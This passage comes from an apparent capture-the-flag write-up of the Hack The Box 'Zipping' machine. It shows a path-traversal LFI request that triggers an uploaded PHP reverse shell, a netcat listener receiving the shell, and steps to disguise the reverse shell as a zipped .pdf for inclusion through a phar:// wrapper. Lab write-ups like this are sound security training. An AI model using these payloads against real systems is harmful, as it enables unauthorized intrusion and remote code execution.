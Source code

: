 Upload it then get a shell

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ curl 'http://zipping.htb/shop/index.php?page=../../../../../../tmp/uploads/8c143ce49eb8765ab338ff87970a0c9e/rev'
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.61.217] 50346
bash: cannot set terminal process group (1095): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$ id
id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
```

### phar wrapper to RCE

1. Write a php webshell
2. Zip the web shell and save as `.pdf`
3. Use LFI with `phar://` wrapper to include the webshell inside the uploaded PDF file

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php rev.php

┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ sed -i -e 's/127.0.0.1/10.10.14.35/' -e 's/1234/1111/' rev.php

┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ zip ok.pdf rev.php
  adding: rev.php (deflated 18%)

┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ zip ok.zip ok.pdf
updating: ok.pdf (deflated 37%)
```

![](/assets/obsidian/f3643d15af28e36383fceaac46e6ce14.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Zipping/exploit]
└─$ curl 'http://zipping.htb/shop/index.php?page=phar:///var/www/html/uploads/430fe450eeb494ff835e4a8bf979361f/ok.pdf/rev'
```
 